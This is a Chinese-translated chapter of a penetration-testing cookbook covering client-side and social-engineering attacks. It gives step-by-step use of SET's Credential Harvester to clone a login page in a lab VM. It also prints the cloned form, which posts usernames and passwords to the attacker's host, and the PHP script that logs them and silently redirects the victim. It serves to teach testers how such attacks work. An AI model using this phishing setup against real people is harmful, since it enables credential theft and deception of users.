

# 第九章 客户端攻击和社会工程

> 作者：Gilberto Najera-Gutierrez

> 译者：[飞龙](https://github.com/)

> 协议：[CC BY-NC-SA 4.0](http://creativecommons.org/licenses/by-nc-sa/4.0/)

## 简介

我们目前所见的大部分技巧都尝试利用服务端的漏洞或设计缺陷，并访问它来从数据库中提取信息。有另外不中攻击，使用服务器来利用用户软件上的漏洞，或者尝试欺骗用户来做一些他们通常情况下不会做的事情，以便获得用户拥有的信息。这些攻击就叫做客户端攻击。

这一章中，我们会复查一些由攻击者使用，用于从客户端获得信息的技巧，通过社会工程、欺骗或利用软件漏洞。

虽然它并不和 Web 应用渗透测试特定相关，我们会涉及它们，因为大多数都是基于 web 的，并且都是非常常见的场景，其中我们在攻击客户端时，能够访问应用和服务器。所以，了解攻击者如何执行这类攻击，对于渗透测试者来说非常重要。

## 9.1 使用 SET 创建密码收集器

社会工程攻击可能被认为是客户端攻击的特殊形式。在这种攻击中，攻击者需要说服用户，相信攻击者是可信任的副本，并且有权接收用户拥有的一些信息。

SET 或社会工程工具包（`(https://www.trustedsec.com/social-engineertoolkit/`）是一套工具，为执行针对人性的攻击而设计。这类攻击，包括网络钓鱼、邮件群发、SMS、伪造无线接入点、恶意网站、感染性媒体，以及其它。

这个秘籍中，我们会使用 SET 来创建密码收集器网页，并看看它如何工作，以及攻击者如何使用它来盗取用户密码。

### 操作步骤

1.  在 root 终端中输入下列命令：

    ```
    setoolkit
    ```
    
    
    
2.  在`set>`提示符中输入`1`（`Social-Engineering Attacks`）并按下回车。

3.  现在选择`Website Attack Vectors`（选项`2`）。

4.  从下面的菜单中，我们选择`Credential Harvester Attack Method`（选项`3`）。

5.  选择`Site Cloner `（选项`2`）。

6.  它会询问`IP address for the POST back in Harvester/Tabnabbing`。它的意思是收集到的证书打算发送到哪个 IP。这里，我们输入 Kali 主机在`vboxnet0`中的 IP `192.168.56.1`。

7.  下面，压脚询问要克隆的 URL，我们会从 vulnerable_vm 中克隆 Peruggia 的登录表单。输入` http://192.168.56.102/peruggia/index. php?action=login`。

8.  现在会开始克隆，之后你会被询问是否 SET 要开启 Apache 服务器，让我们这次选择`Yes`，输入`y`并按下回车。

    
    
9.  再次按下回车。

0.  让我们测试一下页面，访问` http://192.168.56.1/`。

    
    
    现在我们拥有原始登录页面的一份精确副本。
    
1.  现在在里面输入一些用户名和密码，并点击`Login`。我们要尝试`harvester/test`。

2.  你会看到页面重定向到了原始的登录页面。现在，来到终端并输入收集器文件保存的目录，默认为 Kali 中的`/var/www/ html`：

    ```
    cd /var/www/html
    ```
    
3.  这里应该有名称为`harvester_{date and time}.txt `的文件。

4.  显示它的内容，我们会看到所有捕获的信息：

    ```
    cat harvester_2015-11-22 23:16:24.182192.txt
    ```
    
    
    
    这就结束了，我们仅仅需要将连接发送给我们的目标，并让他们访问我们的伪造登录页面，来收集它们的密码。
    
### 工作原理

SET 在克隆站点的时候会创建三个文件：首先是`index.html`，这是原始页面的副本，并包含登录表单。如果我们查看 SET 在我们的 Kali 中的 `/var/www/html `创建的`index.html`的代码，我们会发现下面的代码：

```html
<form action="http://192.168.56.1/post.php"http://192.168.56.1/index.php?action=login&amp;check=1" method=post> 
<br> 
Username: <input type=text name=username><br> 
Password: <input type=password name=password><br> 
<br><input type=submit value=Login><br> 
</form>
```

这里我们可以看到用户名和密码都发给了 192.168.56.1 （我们的 Kali 主机）的`post.php`，这是 SET 创建的第二个文件。这个文件所做的所有事情就是读取 POST 请求的内容并将它们写入`harvester_{date and time}.txt `文件。 SET 所创建的第三个文件储存由用户提交的信息。在向文件中写入数据之后，`<meta>`标签重定向到原始的登录页面，所以用户会认为他们输入了一些不正确的用户名或密码：

```php
<?php 
$file = 'harvester_2015-11-22 23:16:24.182192.txt'; 
file_put_contents($file, print_r($_POST, true), FILE_APPEND); 
?> 
<meta http-equiv="refresh" content="0; 
url=http://192.168.56.102/peruggia/index.php?action=login" 
/>
```
